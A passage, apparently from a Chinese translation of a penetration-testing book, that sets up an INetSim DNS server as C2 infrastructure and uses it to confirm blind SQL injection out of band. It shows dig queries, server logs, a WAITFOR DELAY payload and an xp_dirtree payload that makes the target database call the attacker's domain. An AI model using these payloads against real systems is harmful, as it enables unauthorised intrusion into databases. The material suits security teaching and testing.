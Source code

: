 我们可以通过访问委托域范围内的随机子域，或者从我们的攻击 Kali 机器发出`dig`查询，来测试 INetSim 提供的 DNS 服务器：

```
**root@kali:~# dig +short c2FudGEgY2xhdXNlIGlzIG5vdCByZWFs.c2.spider.ml**
**35.196.100.89**

```

这是我们的 DNS 查询在互联网上的路径：

1.  客户端向其本地 DNS 服务器请求答案

1.  本地 DNS 服务器转发到互联网根名称服务器

1.  根服务器将查询转发到 ML 顶级域的权威服务器

1.  ML 权威服务器将查询转发到`spider.ml`权威服务器

1.  我们之前添加的 NS 记录会将查询转发到我们的 C2 服务器

由于我们控制着负责`c2`区域的 DNS 服务器，我们可以检查`/var/log/inetsim/service.log`文件，并使用`tail`命令观察对`dig`请求的响应，如下所示：

```
**root@spider-c2-1:~# tail /var/log/inetsim/service.log**
**[...] [11033] [dns_53_tcp_udp 11035] connect**
**[...] [11033] [dns_53_tcp_udp 11035] recv: Query Type A, Class IN, Name c2FudGEgY2xhdXNlIGlzIG5vdCByZWFs.c2.spider.ml**
**[...] [11033] [dns_53_tcp_udp 11035] send: c2FudGEgY2xhdXNlIGlzIG5vdCByZWFs.c2.spider.ml 3600 IN A 35.196.100.89**
**[...] [11033] [dns_53_tcp_udp 11035] disconnect**
**[...] [11033] [dns_53_tcp_udp 11035] stat: 1 qtype=A qclass=IN qname=c2FudGEgY2xhdXNlIGlzIG5vdCByZWFs.c2.spider.ml**
**root@spider-c2-1:~#**

```

C2 基础设施已准备好进行带外漏洞发现扫描。

# 确认

现在云服务器已正确配置为记录通过 DNS 接收到的请求，我们可以回到之前的示例，利用云服务器进行带外确认漏洞。

你会记得，存在漏洞的应用允许通过`name`参数执行未经过滤的输入到 SQL 服务器。作为攻击者，我们有时面临的挑战是，应用在输入时没有表现出不同的行为，从而很难确认此类漏洞的存在。有时，我们甚至幸运地能够检查源代码，在这种情况下我们可以直接跳到利用漏洞的步骤。

`WAITFOR DELAY`有效载荷适用于大多数盲 SQL 注入，因为大多数应用视图依赖于控制器执行的 SQL 查询结果。

```
SELECT * FROM users WHERE user = 'Dade';**WAITFOR DELAY '0:0:20' --**';
```

在这种令人惊讶的常见场景中，漏洞查询是异步执行的，且页面没有返回任何有用的信息，我们可以欺骗 SQL 服务器联系我们新创建的 C2 基础设施，从而在没有应用帮助的情况下得到确认。

完成此操作的有效载荷将如下所示：

```
';declare @q varchar(99);set @q='\\sqli-test-payload-1.c2.spider.ml\test'; exec master.dbo.xp_dirtree @q;--
```
